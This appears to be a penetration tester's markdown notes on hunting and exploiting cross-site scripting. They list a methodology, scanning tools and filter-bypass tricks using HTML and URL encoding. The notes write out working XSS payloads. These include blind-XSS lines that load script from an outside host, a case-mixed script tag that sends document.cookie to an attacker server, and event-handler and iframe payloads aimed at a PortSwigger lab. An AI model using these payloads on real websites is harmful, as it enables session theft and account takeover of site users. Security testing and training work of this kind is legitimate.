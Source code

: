 # Methodology
1. Discover hidden parameter
2. Search Tor the reflections, it doesn't matter its stored or not. Work manually on the reflections.
   - Use Burp *Reflector* extension.
3. Download JS and HTML files then grep JavaScript keywords
   - Search for the eventListener `addEventListener\((?:'|\")message(?:'|\")"`
   - Search for the JavaScript sources or sinks
4. Search for the postMessages and try to find misconfiguration
5. Spray everywhere for Blind XSS.
   - Use Burp *Auto-Repeater* extension. (Clip: Hunt > XSS_part_4 > 18")
   - These payloads should be URL-encoded.
    ```html
    "><script%20src=https://www.icollab.info/bxss></script>
    var a=document.createElement("script");a.src="//www.icollab.info/bxss";document.body.appendChild(a);
    ```
6. Tools
   - Dalfox: Powerfull xss scanner and parameter analyzer
   - KXSS: lightweight tool to discover potential reflected XSS
   - GXSS: lightweight tool to checking reflection parameters pin a URL
   - Ayineh: Detect context break strings (private)


# Bypass
### Encode in html atrribute
- Every HTML-encoded value in attribute of HTML tags will automatically HTML-decode by DOM. (Event handler is also an attribute)
- `'` is filtered and context is html attribute tag, we should HTML-encode, then URL-encode it.
  - `'/alert(origin)/'`  =>  `&#x27;/alert(origin)/&#x27;`  =>  `%26%23x27;/alert(origin)/%26%23x27;`
  - `/` is a mathematical function (we can also use `-`), so JavaScript core will run `alert(origin)` to calculate it's result.
    ```html
    %26%23x27;/alert(origin)/%26%23x27;               <!--     <body onload="doSomething('xxx')">    -->
    %26apos;-alert(origin)-%26apos;
    ');\u{0061}lert(1)//                              <!--     <body onload="send('123')">           -->
    ```
- Mix different encodings and capitalizations to confuse the XSS filter.
  ```html
  <scrIPT>location='http://attacker_server_ip/c='+document.cookie;</scrIPT>
  ```
- Use *Double URL-encode* & *HTML-encode* to bypass HTML-encoding. (NOT WORK ALWAYS)
  - Double URL-encode: `"`  =>  `%2522`
  - HTML-encode: `"`  =>  `%26quot;&lt;`

### Filtered HTML tags and events
- Send request to Burp Intruder and use [PortSwigger CheatSheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet):
  - Use **Copy tags to clipboard** for `GET /?search=<§§> HTTP/1.1`  =>  `200` for `body`
  - Use **Copy events to clipboard** for `GET /?search=<body/§onload§=alert(origin)> HTTP/1.1`  =>  `200` for `onresize`
```html
search=<body/onresize=alert(origin)>
search="><svg><animatetransform onbegin=alert(1)>
```
- Use this payload for exploit:
```bash
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```